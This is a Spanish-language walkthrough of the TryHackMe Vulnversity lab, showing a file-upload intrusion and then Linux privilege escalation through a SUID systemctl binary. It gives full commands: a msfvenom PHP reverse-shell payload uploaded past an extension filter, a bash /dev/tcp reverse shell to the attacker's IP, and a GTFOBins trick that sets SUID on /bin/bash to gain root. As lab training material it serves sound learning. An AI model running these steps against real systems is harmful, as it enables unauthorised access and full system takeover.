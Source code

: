 # Escalada de Privilegios en Linux – Binarios SUID

Maquinas que vamos a utilizar **Kali Linux y Vulnversity** [https://tryhackme.com/room/vulnversity](https://tryhackme.com/room/vulnversity)

Otra técnica muy frecuente para escalar privilegios en Linux es la enumeración de binarios SUID, donde podremos conocer que binarios tienen **setuid 0** y podemos utilizarlos para escalar privilegios en Linux.

<aside>
💡

El **setuid** (Set User ID) es un permiso especial en sistemas operativos basados en Unix que permite a los usuarios ejecutar un archivo con los privilegios del propietario del archivo, en lugar de con los suyos propios. Esto es útil para tareas que requieren permisos elevados, como cambiar contraseñas o enviar paquetes de red.

Cuando un archivo tiene **setuid 0**, significa que se ejecutará con los privilegios del usuario **root** (ID 0), lo que le otorga acceso total al sistema.

</aside>

```bash
ping -c 1 10.10.211.221
```

![image.png](./imagenes/image%2043.png)

<aside>
💡

Vamos a hacer la intrusión a esta maquina que ya la habíamos visto antes y después haremos la escalada de privilegios.

</aside>

```bash
nmap -p- -sS -sV -sC --open -min-rate=5000 -n -vvv -Pn 10.10.211.221
```

![image.png](./imagenes/image%2044.png)

- Miramos en el navegador
    
    ![image.png](./imagenes/image%2045.png)
    

- Hacemos **Fuzzing Web con gobuster.**
    
    ```bash
    gobuster dir -u [http://10.10.211.221:3333/](./imagenes/http://10.10.211.221:3333/) -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
    ```
    
    ![image.png](./imagenes/image%2046.png)
    

- Lo miramos en el navegador web y vemos que tenemos un panel de subida de archivos.
    
    `http://10.10.211.221:3333/internal/index.php`
    
    ![image.png](./imagenes/image%2047.png)
    

- Nos creamos un payload con msfvenom
    
    ```bash
    msfvenom -p php/reverse_php LHOST=10.21.166.149 LPORT=443 -f raw > pwned.php 
    ```
    
    ![image.png](./imagenes/image%2048.png)
    

- Como la extensión php no esta permitida en este panel le vamos a cambiar la extensión.
    
    ```bash
    mv pwned.php pwned.phtml
    ```
    
    ![image.png](./imagenes/image%2049.png)
    

- Lo intentamos subirlo
    
    ![image.png](./imagenes/image%2050.png)
    

- Volvemos a hacer  **Fuzzing Web** pero esta vez de [`http://10.10.211.221:3333/internal/`](./imagenes/http://10.10.211.221:3333/internal/) para encontrar la carpeta donde se guardan los archivos subidos.
    
    ```bash
    gobuster dir -u http://10.10.211.221:3333/internal/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
    ```
    
    ![image.png](./imagenes/image%2051.png)
    

- Lo miramos en el navegador web.
    
    ![image.png](./imagenes/image%2052.png)
    
- Nos ponemos a la escucha con netcat por el puerto 443.
    
    ```bash
    nc -nlvp 443
    ```
    
    ![image.png](./imagenes/image%2053.png)
    

<aside>
👉

Como es una conexión por msfvenom y es muy inestable vamos a a estabilizarla.

</aside>

- Nos ponemos a la escucha con netcat por el puerto 444 en otra terminal
    
    ```bash
    nc -nlvp 444 
    ```
    
    ![image.png](./imagenes/image%2054.png)
    

- Nos vamos a la pagina [https://www.revshells.com/](./imagenes/https://www.revshells.com/) y creamos y copiamos el código de una reverse shell.
    
    ![image.png](./imagenes/image%2055.png)
    

Que quedaría así : 

`bash -c "sh -i >& /dev/tcp/10.21.166.149/444 0>&1"`

- ejecutamos el archivo malicioso y cuando tengamos la conexión pegamos el código para generar una conexión estable por el puerto 444.
    
    ![image.png](./imagenes/image%2056.png)
    

![image.png](./imagenes/image%2057.png)

---

**Comenzamos con la escalada de privilegios**

![image.png](./imagenes/image%2058.png)

- Ejecuto el comando **sudo -l**
    
    `sudo -l`
    
    ![image.png](./imagenes/image%2059.png)
    
    😲😲 No funciona 😲
    

- Vamos a hacer la siguiente búsqueda para buscar binarios vulnerable (con el permiso de root dentro del sistema. y Lugo comprobaremos en la web [https://gtfobins.github.io/](./imagenes/https://gtfobins.github.io/) si alguno de esos vinarios nos puede servir.
    
    `find / -perm -4000 2>/dev/null`
    
    ![image.png](./imagenes/image%2060.png)
    

- Vamos a probar por ejemplo el binario **chfn**
    
    ![image.png](./imagenes/image%2061.png)
    
    Vemos que no aparece.
    
- Probamos con **systemctl**
    
    ![image.png](./imagenes/image%2062.png)
    

Lo que estamos haciendo básicamente ahora es **SUID** por lo tanto buscamos la instrucciones para el.

![image.png](./imagenes/image%2063.png)

- Pero primero vamos a hacer un tratamiento de la TTY
    
    `script /dev/null -c bash`
    
    `CTRL+Z`
    
    `stty raw -echo; fg`
    
    `reset xterm`  : 
    
    **NOTA:** En ocasiones cuanto escribimos **reset xterm** no aparece en la pantalla pero se esta escribiendo.
    
    ![image.png](./imagenes/image%2064.png)
    

`export TERM=xterm`
`export SHELL=bash`

- Nos ubicamos en el directorio “/**tmp**” y nos creamos un script en bash con el contenido que hemos encontrado en [https://gtfobins.github.io/](./imagenes/https://gtfobins.github.io/).
    
    `cd /tmp`
    
    `nano [escalada.sh](./imagenes/http://escalada.sh/)`
    
    ![image.png](./imagenes/image%2065.png)
    
    ![image.png](./imagenes/image%2066.png)
    
    ![image.png](./imagenes/image%2067.png)
    
     Modificamos esto: `"id > /tmp/output"` →  `"chmod u+s /bin/bash"`
    
    <aside>
    💡
    
    Cada elemento del comando cumple una función específica:
    
    🔹 **`chmod`** → Es el comando que se usa para **cambiar los permisos** de archivos en Linux.
    
    🔹 **`u+s`** → Se divide en dos partes:
    
    - **`u`** → Representa el **usuario propietario** del archivo (normalmente root).
    - **`+s`** → Habilita el **bit SUID (Set User ID)**, lo que permite que el programa se ejecute con los privilegios de su propietario en lugar de los del usuario que lo ejecuta.
    🔹 **`/bin/bash`** → Es el archivo al que se le aplican los nuevos permisos. En este caso, el ejecutable de **Bash**, la shell de comandos de Linux.
    - 
    
    Esto significa que **podría ejecutar comandos con privilegios de administrador**, lo que puede ser un grave **riesgo de seguridad**.
    
    </aside>
    
- Ejecutamos el archivo que acabamos de crear.
    
    `bash [escalada.sh](./imagenes/http://escalada.sh/)`
    
    ![image.png](./imagenes/image%2068.png)
    
    😲😲**Me da un error** 😱
    

El error es que en el archivo **esta puesta la ruta relativa** y dentro de lo posible siempre hay que evitar esto y **poner la ruta absoluta**.

![image.png](./imagenes/image%2069.png)

La ruta la encontrábamos aquí anteriormente. `/bin/systemctl`

![image.png](./imagenes/image%2070.png)

**Quedando asi:**

![image.png](./imagenes/image%2071.png)

- Volvemos a ejecutar el archivo que habíamos creado.
    
    `bash [escalada.sh](./imagenes/http://escalada.sh/)`
    
    ![image.png](./imagenes/image%2072.png)
    

- Escribimos el siguiente comando y nos habremos convertimos en **root**.
    
    `bash -p`
    
    ![image.png](./imagenes/image%2073.png)